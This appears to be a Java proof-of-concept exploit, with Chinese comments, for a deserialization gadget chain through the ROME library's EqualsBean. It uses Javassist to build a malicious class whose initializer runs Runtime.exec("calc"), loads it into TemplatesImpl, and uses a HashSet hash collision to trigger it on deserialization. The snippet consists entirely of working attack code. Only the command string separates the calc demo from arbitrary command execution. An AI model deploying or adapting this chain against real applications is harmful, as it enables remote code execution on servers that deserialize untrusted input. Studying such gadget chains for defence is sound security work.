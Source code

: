 ```plain

        // 创建恶意类
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass ctClass = classPool.makeClass("cccc");
        ctClass.setSuperclass(classPool.get(AbstractTranslet));
        ctClass.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes = ctClass.toBytecode();

        // 创建TemplatesImpl对象
        Object templateImpl = Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();
        setFiled(templateImpl, "_bytecodes", new byte[][]{bytes});
        setFiled(templateImpl, "_name", "test");
        setFiled(templateImpl, "_tfactory", null);

        EqualsBean bean = new EqualsBean(String.class, "s");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", templateImpl);
        map2.put("zZ", bean);
        map2.put("yy", templateImpl);
        HashSet table = new HashSet();
        table.add(map1);
        table.add(map2);

        setFiled(bean, "_beanClass", Templates.class);
        setFiled(bean, "_obj", templateImpl);
        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("EqualsBean.bin"));
        objectOutputStream.writeObject(table);
        objectOutputStream.close();

        // 反序列化
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("EqualsBean.bin"));
        objectInputStream.readObject();
        objectInputStream.close();
    }

    public static void setFiled(Object o, String fieldname, Object value) throws Exception {
        Field field = o.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }
}
```
